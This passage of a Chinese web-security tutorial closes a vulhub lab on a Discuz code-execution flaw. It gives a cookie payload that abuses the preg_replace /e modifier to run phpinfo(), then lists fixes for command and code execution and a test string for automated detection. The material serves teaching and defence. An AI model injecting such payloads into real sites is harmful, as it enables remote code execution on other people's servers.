[](https://raw.githubusercontent.com/hongriSec/Web-Security-Attack/master/Part1/Day13/files/assets/g2kDwiUR4X0MCMlE.png)  
数据库地址填写db，数据库名为discuz，数据库账号密码均为root  
[](https://raw.githubusercontent.com/hongriSec/Web-Security-Attack/master/Part1/Day13/files/assets/YYPBihROEbcafiVd.png)  
安装好后随便访问个帖子，并抓包。  
把cookie进行替换

```plain
GLOBALS[_DCACHE][smilies][searcharray]=/.*/eui; GLOBALS[_DCACHE][smilies][replacearray]=phpinfo();
```

[](https://raw.githubusercontent.com/hongriSec/Web-Security-Attack/master/Part1/Day13/files/assets/HnxCrDDAvqc8YwM6.png)

# 3\. 修复方案

## 3.1 命令执行修复方案

### 3.1.1 尽量少用执行命令的函数或者直接禁用

### 3.1.2 参数值尽量使用引号包括

### 3.1.3 在使用动态函数之前，确保使用的函数是指定的函数之一

### 3.1.4 在进入执行命令的函数/方法之前，对参数进行过滤，对敏感字符进行转义

### 3.1.5 能使用脚本解决的工作，不要调用其他程序处理。尽量少用执行命令的函数，并在disable\_functions中禁用

### 3.1.6 对于可控点是程序参数的情况下，使用escapeshellcmd函数进行过滤，对于可控点是程序参数值的情况下，使用escapeshellarg函数进行过滤

### 3.1.7 参数的值尽量使用引号包裹，并在拼接前调用addslashes进行转义

### 3.1.8 对由特定第三方组件引发的漏洞，我们要做的就是及时打补丁，修改安装时的默认配置。

## 3.2 代码执行修复方案

### 3.2.1 能使用json 保存数组、对象就使用json，不要将php对象保存成字符串，否则读取的时候需要使用eval。将字符串转化为对象的过程其实是将数据转化为代码的过程，这个过程很容易出现漏洞，像php的unserialize 导致代码执行、struts2的ognl 命令执行等漏洞都是这个过程导致的。

### 3.2.2 对于必须使用eval 的情况，一定要保证用户不能轻易接触eval 的参数（或用正则严格判断输入的数据格式）。对于字符串，一定要使用单引号包裹可控代码，并再插入前进行addslashes，这样就无法闭合单引号，又因为不是双引号包裹，故不能执行 ${} 。

evil('${phpinfo()}')、evil("phpinfo()") 等都不会执行， evil("${phpinfo()}")、evil(phpinfo())、evil(${@phpinfo()}) 都可以执行，因为双引号里面内容会被当作变量解析一次，函数前加 @ 表示执行函数时不报错。  
$data = addslashes($data);eval("\\$data = deal('$data');");

### 3.2.3 放弃使用preg\_replace 的e修饰符，而换用 preg\_replace\_callback 替代。如果非要使用preg\_replace的e模式的话，请保证第二个参数中，对于正则匹配出的对象，用单引号包裹。

### 3.2.4 确保register\_globals = off, 若不能自定义php.ini，则应该在代码中控制；其次，熟悉可能造成变量覆盖的函数和方法，检查用户是否能控制变量的来源；最后，养成初始化变量的好习惯。

### 3.2.5 能够往本地写入的函数都需要重点关注，如 file\_put\_contents(), fwrite(), fputs() 等。

### 3.2.6 在自动化漏洞检测中可以 直接带入类似 ";print(md5(test));$a=" ，匹配返回页面是否有 md5 字符串。

# 4\. 参考文章

[https://www.freebuf.com/column/154670.html](https://www.freebuf.com/column/154670.html)  
[https://vulhub.org/#/docs/](https://vulhub.org/#/docs/)  
[https://vulhub.org/#/environments/httpd/ssi-rce/](https://vulhub.org/#/environments/httpd/ssi-rce/)  
[https://vulhub.org/#/environments/discuz/wooyun-2010-080723/](https://vulhub.org/#/environments/discuz/wooyun-2010-080723/)  
[https://github.com/cnonce/MiscSecNotes/blob/master/命令执行/命令执行.md](https://github.com/cnonce/MiscSecNotes/blob/master/%E5%91%BD%E4%BB%A4%E6%89%A7%E8%A1%8C/%E5%91%BD%E4%BB%A4%E6%89%A7%E8%A1%8C.md)
